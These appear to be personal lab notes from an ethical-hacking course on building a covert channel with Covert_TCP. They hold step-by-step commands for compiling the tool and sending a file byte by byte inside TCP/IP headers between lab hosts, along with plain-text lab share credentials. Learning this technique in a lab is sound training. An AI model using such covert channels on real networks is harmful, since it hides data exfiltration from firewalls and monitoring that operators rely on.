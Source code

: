 ---------
- **Task 9: Covert channels using Covert_TCP**

Networks use network access control permissions to permit or deny the traffic flowing through them. Tunneling is used to bypass the access control rules of firewalls, IDS, IPS, and web proxies to allow certain traffic. Covert channels can be created by inserting data into the unused fields of protocol headers. There are many unused or misused fields in TCP or IP over which data can be sent to bypass firewalls.

The Covert_TCP program manipulates the TCP/IP header of the data packets to send a file one byte at a time from any host to a destination. It can act like a server as well as a client and can be used to hide the data transmitted inside an IP header. This is useful when bypassing firewalls and sending data with legitimate-looking packets that contain no data for sniffers to analyze.

	[parrot] - target
	cd Desktop
	mkdir Send
	cd Send
	echo "Secret Message" > message.txt

	  Click Places -> Desktop -> ceh-tool 10.10.1.11
	  OR
	  Ctrl+L. smb://10.10.1.11
	   Windows credentials & Connect.
	
	copy covert_tcp.c to Desktop\send folder
	cc -o covert_tcp covert_tcp.c 
	
	[ubuntu] - host
	sudo su
	tcpdump -nvvx port 8888 -i lo -> [ifconfig to check interface]
	
	Open new Terminal
	cd Desktop
	mkdir Receive
	cd Receive
	
	L-H pane-> Files -> Other locations
	smb://10.10.1.11 -> connect to server -> connect
	Enter credentials Admin/Pa$$w0rd -> connect
	CEH-Tools
	copy covert_tcp.c to Desktop/receive folder
	
	/Desktop/Receive>cc -o covert_tcp covert_tcp.c
	sudo su
	./covert_tcp -dest 10.10.1.9 -source 10.10.1.13 -source_port 9999 -dest_port 8888 -server -file /home/ubuntu/Desktop/Receive/receive.txt  [start listening]
	
	[parrot]
	open wireshark -> pwd -> toor
	open primary n/w interface eth0
	
	Terminal>sudo su
	./covert_tcp -dest 10.10.1.9 -source 10.10.1.13 -source_port 8888 -dest_port 9999 -file /home/attacker/Desktop/Send/message.txt [start sending the contents of 
	message.txt over tcp]
	NOTE: Only source_port and dest_port changes. convert_tcp starts sending the string one char at a time
	